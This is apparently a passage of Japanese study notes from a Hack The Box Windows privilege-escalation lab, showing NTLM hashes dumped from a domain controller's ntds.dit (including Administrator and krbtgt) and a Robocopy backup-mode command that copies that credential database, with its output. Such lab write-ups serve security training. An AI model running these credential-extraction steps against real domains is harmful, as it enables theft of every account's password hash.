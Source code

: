 ```shell-session
[*] PEK # 0 found and decrypted: 85541c20c346e3198a3ae2c09df7f330
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WINLPE-DC01$:1000:aad3b435b51404eeaad3b435b51404ee:7abf052dcef31f6305f1d4c84dfa7484:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a05824b8c279f2eb31495a012473d129:::
htb-student:1103:aad3b435b51404eeaad3b435b51404ee:2487a01dd672b583415cb52217824bb5:::
svc_backup:1104:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
bob:1105:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
hyperv_adm:1106:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
printsvc:1107:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
```

#### Robocopy
- robocopyも、バックアップモードでファイルをコピーするために使用できる
- Robocopyはコマンドラインのディレクトリ複製ツール
- バックアップジョブの作成に使用でき、マルチスレッドコピー、自動再試行、コピーの中断からの再開などの機能を含んでいる
- Robocopyは、単にすべてのファイルをコピーするcopyコマンドとは異なり、コピー先のディレクトリをチェックして、コピー元のディレクトリに存在しなくなったファイルを削除できる
- コピーする前にファイルを比較して、最後のコピー/バックアップジョブ以降に変更されていないファイルをコピーしないことで時間を節約することも可能
```cmd-session
C:\htb> robocopy /B E:\Windows\NTDS .\ntds ntds.dit

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Thursday, May 6, 2021 1:11:47 PM
   Source : E:\Windows\NTDS\
     Dest : C:\Tools\ntds\

    Files : ntds.dit

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

          New Dir          1    E:\Windows\NTDS\
100%        New File              16.0 m        ntds.dit

------------------------------------------------------------------------------

               Total    Copied   Skipped  Mismatch    FAILED    Extras
    Dirs :         1         1         0         0         0         0
   Files :         1         1         0         0         0         0
   Bytes :   16.00 m   16.00 m         0         0         0         0
   Times :   0:00:00   0:00:00                       0:00:00   0:00:00


   Speed :           356962042 Bytes/sec.
   Speed :           20425.531 MegaBytes/min.
   Ended : Thursday, May 6, 2021 1:11:47 PM
```
